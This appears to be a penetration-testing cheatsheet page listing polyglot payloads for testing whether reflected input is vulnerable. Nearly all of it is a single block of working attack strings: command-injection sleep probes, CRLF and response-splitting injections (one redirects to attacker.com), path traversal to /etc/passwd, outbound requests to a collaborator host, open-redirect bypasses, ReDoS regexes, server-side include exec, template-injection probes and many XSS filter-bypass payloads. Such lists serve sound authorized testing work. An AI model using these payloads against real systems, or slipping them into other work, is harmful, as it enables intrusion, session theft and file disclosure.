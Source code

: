 # Reflecting Techniques - PoCs and Polygloths CheatSheet


The goal of these PoCs and Polygloths is to give the tester a fast **summary** of vulnerabilities he may exploit if his **input is somehow being reflected in the response**.

> [!WARNING]
> This **cheatsheet doesn't propose a comprehensive list of tests for each vulnerability**, just some basic ones. If you are looking for more comprehensive tests, access each vulnerability proposed.

> [!CAUTION]
> You **won't find Content-Type dependant injections like XXE**, as usually you will try those yourself if you find a request sending xml data. You **won't also find database injections** here as even if some content might be reflected it depends heavily on the backend DB technology and structure.

## Polygloths list

```python
{{7*7}}[7*7]
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/**/
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
<br><b>THIS IS AND INJECTED TITLE
==========================

/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" -->x=>alert(/Chrome%20XSS%20filter%20bypass/);</s>
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[[x|%'"}}%\

" onclick=alert() a="
'">![]]
javascript:alert()
javascript:"/*'/*/*--></noscript></title></textarea></style></template></noembed></script>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
">>![[x)" ></plaintext\></|\><plaintext/onmouseover=prompt(1) >@gmail.com<isindex formaction=javascript:alert(/XSS/index.html) type=submit>'-->" ></script>"><img/id="confirm( 1|]]"/alt="/"src="/"onerror=eval(id&%23x29;>'">![[http: //i.imgur.com/P8mL8.jpg]]
" onclick=alert(1)// */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'>
```